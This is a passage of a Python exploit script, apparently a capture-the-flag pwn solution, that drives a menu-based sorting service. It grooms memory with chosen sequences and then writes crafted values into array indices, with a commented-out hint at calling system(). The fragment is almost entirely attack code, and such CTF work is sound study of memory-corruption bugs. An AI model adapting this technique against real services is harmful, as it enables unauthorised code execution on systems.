 ```
       io.read_until("_CMD_$ ")
       io.writeline("exit")
 
def sub_query(io, index):
       io.read_until("Choose: ")
       io.writeline("1")
       io.read_until("Query index: ")
       io.writeline(str(index))
 
def sub_update(io, index, number):
       io.read_until("Choose: ")
       io.writeline("2")
       io.read_until("Update index: ")
       io.writeline(str(index))
       io.read_until("Update number: ")
       io.writeline(str(number))
 
def sub_sort(io):
       io.read_until("Choose: ")
       io.writeline("3")
 
def sub_quit(io):
       io.read_until("Choose: ")
       io.writeline("7")
 
def pwn(io):
       #prepare
       seq = ["1"] * 15
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       seq = ["2"]
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       #io.gdb_hint()
 
       clear(io)
 
       seq = ["2"]
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       seq = ["2"]
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       seq = ["1"] * 13
       sort(io, seq)
       sub_sort(io)
       #system_addr = struct.unpack("i", struct.pack("I", system_addr))
      
       sub_update(io, 5, 0x7ffffff0)
       sub_update(io, 6, 0)
 
       sub_update(io, 9, -1)
       sub_update(io, 10, 0)
 
       sub_update(io, 13, 100)
```